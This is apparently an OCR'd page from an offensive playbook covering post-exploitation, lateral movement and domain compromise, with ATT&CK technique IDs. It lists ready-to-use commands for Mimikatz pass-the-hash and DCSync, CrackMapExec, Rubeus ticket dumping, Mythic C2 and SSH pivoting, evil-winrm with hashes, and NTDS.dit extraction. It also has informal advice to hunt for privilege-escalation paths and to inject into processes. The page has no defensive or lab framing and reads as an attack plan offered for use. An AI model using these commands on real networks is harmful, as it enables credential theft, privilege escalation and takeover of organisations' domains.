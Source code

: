 # **📡 Step 4: Post-Exploitation & Lateral Movement (T1021, T1550, T1558)**
**Objective:** Move laterally and escalate privileges.

### **4.1 Pass-the-Hash (T1550.002)**
- **Primary Method: Mimikatz (Windows Privilege Escalation)**
  ```powershell
  mimikatz
  sekurlsa::pth /user:Administrator /domain:<target> /ntlm:<HASH>
  ```
- **Alternative Methods:**
  - **Pass-the-Hash with CrackMapExec:**
    ```bash
    crackmapexec smb <target> -u admin -H <HASH>
    ```
  - **Rubeus Ticket Extraction:**
    ```powershell
    Rubeus.exe dump
    ```

### **4.2 Mythic C2 for Lateral Movement (T1021.002)**
- **Using Mythic's SOCKS Proxy to Pivot:**
  ```bash
  ./mythic-cli proxy -i <agent_id>
  ```
- **Alternative Methods:**
  - **SSH Pivoting:**
    ```bash
    ssh -D 1080 -N -f <user>@<target>
    ```
  - **WinRM Relay Attack:**
    ```bash
    evil-winrm -i <target> -u user -H <HASH>
    ```

---

# **🏆 Step 5: Domain Compromise & Persistence (T1003, T1078.002, T1053.005)**
**Objective:** Maintain long-term access and extract valuable data.

also check sam and system stuff, etc, check for SUID, Unquoted services, CRON jobs / scheduled tasks, sudo -l, anything you can use, even check versions of running services or common programs and see if you can inject into those processes or DLLs. 
These guides are just the foundations and outline, but from this outline you can go infinitely further creatively, 

### **5.1 Dumping Domain Hashes**
- **Primary Method: DCSync Attack (T1003.002)**
  ```powershell
  mimikatz
  lsadump::dcsync /domain:<target> /user:Administrator
  ```
- **Alternative Methods:**
  - **Extracting NTDS.dit Manually:**
    ```powershell
    ntdsutil "ac i ntds" "ifm" "create full c:\ntds" q q
    ```
(and many many more methods) 
---

